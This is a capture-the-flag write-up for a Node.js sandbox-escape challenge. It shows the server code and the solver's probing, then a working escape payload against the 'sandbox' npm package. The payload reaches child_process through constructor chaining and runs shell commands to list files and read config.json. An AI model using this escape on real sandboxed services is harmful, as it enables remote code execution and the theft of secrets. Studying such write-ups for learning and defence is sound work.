

## Challenge

Santa has practiced his nodejs skills and wants his little elves to
practice it as well, so the kids can get the web- app they wish for.

He made a little practice- sandbox for his elves. Can you break out?

Location: http://whale.hacking-lab.com:3000/

## Solution

We can enter some code in a webform and the output is returned to us

We are also given the serverside code:

    const {flag, port} = require("./config.json");
    const sandbox = require("sandbox");
    const app = require("express")();

    app.use(require('body-parser').urlencoded({ extended: false }));

    app.get("/", (req, res) => res.sendFile(__dirname+"/index.html"));
    app.get("/code", (req, res) => res.sendFile(__filename));

    app.post("/run", (req, res) => {

    	if (!req.body.run) {
    		res.json({success: false, result: "No code provided"});
    		return;
    	}

    	let boiler = "const flag_" + require("randomstring").generate(64) + "=\"" + flag + "\";\n";

    	new sandbox().run(boiler + req.body.run, (out) => res.json({success: true, result: out.result}));

    });

    app.listen(port);
{: .language-js}

So the value we want is in a variable with a random name
`flag_<64randomchars>`. So we either need to get it to spit out all
variable names, or break out of the sandbox and print `boiler`, hmmm

We play around a bit but nothing obvious:

    >> eval(6+6)
    12

    >> Object.keys(this)
    [ 'print', 'console', 'process', 'postMessage' ]

    >> Object.getOwnPropertyNames(this)
    [ 'print',
    'console',
    'process',
    'postMessage',
    'Object',
    'Function',
    'Array',
    'Number',
    'parseFloat',
    'parseInt',
    'Infinity',
    'NaN',
    'undefined',
    'Boolean',
    'String',
    'Symbol',
    'Date',
    'Promise',
    'RegExp',
    'Error',
    'EvalError',
    'RangeError',
    'ReferenceError',
    'SyntaxError',
    'TypeError',
    'URIError',
    'JSON',
    'Math',
    'Intl',
    'ArrayBuffer',
    'Uint8Array',
    'Int8Array',
    'Uint16Array',
    'Int16Array',
    'Uint32Array',
    'Int32Array',
    'Float32Array',
    'Float64Array',
    'Uint8ClampedArray',
    'BigUint64Array',
    'BigInt64Array',
    'DataView',
    'Map',
    'Set',
    'WeakMap',
    'WeakSet',
    'Proxy',
    'Reflect',
    'decodeURI',
    'decodeURIComponent',
    'encodeURI',
    'encodeURIComponent',
    'escape',
    'unescape',
    'eval',
    'isFinite',
    'isNaN',
    'SharedArrayBuffer',
    'Atomics',
    'BigInt',
    'WebAssembly' ]

Then we find this github issue discussing vulnerabilities in this method
of sandboxing: https://github.com/gf3/sandbox/issues/50

So we can get RCE by inputting the following:

    >>> new Function(
    "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("pwd")

    { type: 'Buffer', data: [ 47, 97, 112, 112, 10 ] }

We see that something is returned, but the output isn't very useful to
us, so we set the child process to inherit stdio from parent by setting
`{stdio: 'inherit'}`

    >>>
    new Function(
      "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("pwd", {stdio: 'inherit'})

    JSON Error (data was "/app
    {"result":"null","console":[]}")

That's better! Now let's just read the config file since that will
contain our flag:

    >>>
    new Function(
      "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("ls", {stdio: 'inherit'})

    JSON Error (data was "config.json
    config.json~
    docker-compose.yaml
    dockerfile
    dockerfile~
    index.html
    main.js
    node_modules
    package-lock.json
    package.json
    run.js
    {"result":"null","console":[]}")

    >>>
    new Function(
      "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("cat config.json", {stdio: 'inherit'})

    JSON Error (data was "{
    "flag":"HV18-YtH3-S4nD-bx5A-Nt4G",
    "port":3000
    }

    {"result":"null","console":[]}")

